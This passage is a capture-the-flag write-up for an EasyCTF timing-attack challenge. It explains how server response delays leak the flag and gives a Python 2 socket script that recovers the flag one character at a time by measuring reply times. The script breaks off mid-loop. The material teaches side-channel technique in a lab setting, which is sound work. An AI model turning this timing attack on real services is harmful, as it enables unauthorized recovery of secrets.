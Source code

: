 So this task is based on a timing attack: for each correct flag character, the server wait a specific time to return a response.

There, we have to create a script that find for each character the maximum of the time spent while receiving the server's response, character by character, building the flag until we find the flag from the "easyctf{" part until the "}" part.

**[solution.py](resources/miscellaneous-80-flag_time/solution.py)**

```python
#!/usr/bin/python
import socket
import time
import re

def netcat(hostname, port):
 # Maximum duration (total)
 max_duration=0
 # The first part of the flag (to skip waiting for finding this part of the flag)
 flag="easyctf{"
 char_found=''
 # The possible characters that we can find in a flag
 T=list("abcdefghijklmnopqrstuvwxyz_-0123456789{}")
 # Initiate the socket
 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
 # Starting the connection
 s.connect((hostname, port))
 # Receiving the data : "enter the flag:"
 data = s.recv(10240)
 # Sending the flag to get the initial time of waiting
 print "Sending",flag
 s.send(flag+"\n")
 # Getting the current time before receiving the answser
 n1=time.time()
 # receiving the answer
 data = s.recv(10240)
 # Getting the current time after receiving the answer
 n2=time.time()
 # We should not forget to close the connection
 s.close()
 # Computing the duration of the operation
 max_duration=round(n2-n1,1)
 print "Initial duration",max_duration
 # Be carefull, you have to assist the script while running it
 # I'm too lazy to write something beautiful than an infinite loop especially in a CTF :p
 # So after guessing this part "easyctf{" and then this part "}", you have to stop the script (Ctrl+C)
 while 1:
  # For each supported character
  for i in T:
    # We repeat the previous operation
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((hostname, port))
    data = s.recv(10240)
    print "Sending",flag+str(i)
    s.send(flag+str(i)+"\n")
    n1=time.time()
    data = s.recv(10240)
    n2=time.time()
    duration=round(n2-n1,1)
    # Until getting the new greatter duration
    if duration>max_duration:
      # We save the position of the character
      char_found=str(i)
      # We compute the additionnal waiting time added when we send
```